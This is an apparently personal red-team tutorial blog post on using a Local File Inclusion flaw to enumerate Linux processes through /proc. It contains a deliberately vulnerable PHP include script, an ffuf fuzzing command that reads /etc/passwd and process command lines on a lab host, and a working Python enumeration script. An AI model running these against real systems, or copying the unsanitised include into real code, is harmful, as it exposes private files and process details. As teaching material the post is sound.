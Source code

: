 ```yaml
---
title: Linux Process Enumeration Through LFI
author: Nobel Herrera
date: 2022-03-28 11:11:00 -0400
categories: [Linux, LFI, Enumeration, Web]
tags: [RedTeam, LFI, Web, Linux, Enumeration]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


In this post, we’ll explore a technique to enumerate Linux processes through a web application vulnerable to LFI (Local File Inclusion).

File inclusion vulnerabilities allow attackers to read arbitrary files from local or remote systems and include the contents of the files in the web server’s response.

## A Vulnerable Web App
We'll use a simple php script to simulate our vulnerable web application. 
As shown in the following code, the `include` statement is used to copy into the `lfi.php` page, the contents of a file specified in the `lang` variable:

```php
<?php 
if(isset($_GET['lang'])){
        include($_GET['lang']);
} ?>ss
```

The following image shows a request/response to our web application, using the vulnerable parameter `lang` to read the `/etc/passwd` file: 

![pidlfi1](/docs/assets/lfipid1.png)

## The proc Filesystem
On Linux, the `/proc` directory contains one subdirectory for every process running on the system. These subdirectories are named after each process ID number (PID) that is active.

Into the PID subdirectories we’ll find several files with information related to the specific process. As an example, to get the command line arguments used to start a service, we can read the `cmdline` file. In the following image, `980` is the PID for the Apache server process: 

![pidlfi2](/docs/assets/pidlfi2.png)

A full list of these files and it's purpose can be found [here](https://www.kernel.org/doc/html/latest/filesystems/proc.html) 

## Enumerating PIDs with Ffuf
We'll create a number list and fuzz the PIDs with `ffuf`. Since all request returns a `200` status code, we'll use the `-fw 1` switch to filter responses with less than 2 words:  
```bash
for i in $(seq 1 5000); do echo $i >> pid.txt; done && \
ffuf -c -w pid.txt:FUZZ -u http://10.0.0.19/lfi.php?lang=/proc/FUZZ/cmdline -fw 1
```
![pidlfi3](/docs/assets/pidlfi3.png)

Now we can read the `cmdfile` of any of the found PIDs:

![pidlfi4](/docs/assets/pidlfi4.png)

## Pythonizing the process


```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) != 5:
    print ('[!] Missing parameter!')
    print ('[*] Syntax: pidenum.py URL max_PID_count proc_file output_file')
    print ('[*] Example: pidenum.py http://10.0.0.5/lfi.php?file= 2000 cmdline results.txt')
    sys.exit()

url = sys.argv[1]
pidtries = sys.argv[2]
procfile = sys.argv[3]
outputfilename = sys.argv[4]
resultsfile = open(outputfilename, mode = "w", encoding = "utf-8")
pid=1

try: 
    
    while pid <= int(pidtries):
        r = requests.get(url+ '/proc/' + str(pid) + '/' + procfile)      
        if len (r.text)!= 1:
            resultsfile.write ('[*] PID: ' + str(pid) + '\n')
            resultsfile.write ('[*] URL: ' + r.url + '\n')
            resultsfile.write ('[*] ' + procfile + ': ' + r.text + '\n')        
        pid += 1
        
    resultsfile.close()

except KeyboardInterrupt: pass
```